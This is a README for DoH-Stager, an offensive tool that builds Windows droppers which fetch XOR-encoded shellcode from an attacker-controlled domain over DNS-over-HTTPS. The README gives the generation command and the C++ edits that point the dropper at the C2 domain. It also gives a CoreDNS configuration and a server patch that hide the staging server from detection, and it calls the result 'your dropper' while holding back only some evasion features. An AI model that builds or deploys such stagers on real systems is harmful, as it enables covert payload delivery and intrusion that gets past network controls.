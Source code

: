 # DoH-Stager

DoH-Stager is an expansion of the awesome [DNSStager](https://github.com/mhaskar/DNSStager) tool made by [@mohammadaskar2](https://twitter.com/mohammadaskar2). DoH-Stager is aimed at providing the same functionalities as the original version, but using DNS-over-HTTPS instead of classic DNS. 

For those who are not familiar with DNSStager, the project is program what allows the operator to create a number of stagers that will fetch an arbitrary payload via DNS. Despite the PoC is intended to be used with a shellcode, it can adapted to retrieve any content such as encryption keys or other post-exploitation capabilities. 

This update was necessary in order to operate in environments where DNS resolution was restricted on the host and mostly delegated to the HTTP proxy.

## Usage

In order to use DoH-Stager you need to configure the following components:

- A custom NS record configured in your DNS provider that points to the host where the DNSStager server was deployed
- A fully functioning DNSStager deployment, as outlined [here](https://github.com/mhaskar/DNSStager#installation).

Run the `dnsstager`python script as follows:

```
./dnsstager.py  --domain p.pacc.tortellozzi.club --payload x64/c/ipv6 --o
utput ~/payload.exe --prefix emperor --sleep 1 --xorkey 0x10 --shellcode_path ~/calc-thread64.bin
```

Take note of the `xorkey` parameter you use, as you will need to manually copy it in the `DoHStager.cpp` file later.

You can modify line 18 of the `DoHStager.cpp` file to use other DoH providers, the provided PoC only used Google's DNS:

```
 18 #define DOMAIN              "dns.google.com"
```

You will also need to modify line 189 to specify your custom domain:

```
189                 sprintf_s(domain, 200, "emperor%i.p.pacc.tortellozzi.club",     i);
```

the above should match with the values that you specified when the `dnsstager` server was launched.

Compile the project using Visual Studio (tested with VS2019) and enjoy your dropper! Of course it is missing several features, such as:

- Execution guardrails
- OpSec-safe process injection

But after all we want to keep a couple of aces in our sleeve and not provide a fully weaponised version available to the public.

In addition, if you do not want to expose your DNSStager server directly to the internet, and there are several reasons for not doing it, as outlined in F-Secure's blog [Detecting Exposed Cobalt Strike DNS Redirectors](https://labs.f-secure.com/blog/detecting-exposed-cobalt-strike-dns-redirectors), it is possible to use CoreDNS to provide an additional layer of obfuscation.

Using the proposed configuration it will be possible to have a DNS server that will forward DNS queries to all the domain via the Quad9 resolver, whilst forwarding the traffic to the DNSStager server only for the desired zone.

The Corefile that can be used is the following:

```
. {
log
  forward . 9.9.9.9
}

p.pacc.tortellozzi.club {
        log
        forward . 127.0.0.1:5050
}
```

And the only thing that was changed in the original server's python script was the port where the server will be listening to:
```
--- a/core/functions.py
+++ b/core/functions.py
@@ -185,8 +185,8 @@ def start_dns_server(ZONES):
     resolver = Resolver(ZONES)

     try:
-        server = DNSServer(resolver, port=53, address="0.0.0.0", tcp=False)
-        print_success("Server started!")
+        server = DNSServer(resolver, port=5050, address="0.0.0.0", tcp=False)
+        print_success("Server started on port 5050!")
         server.start()
```
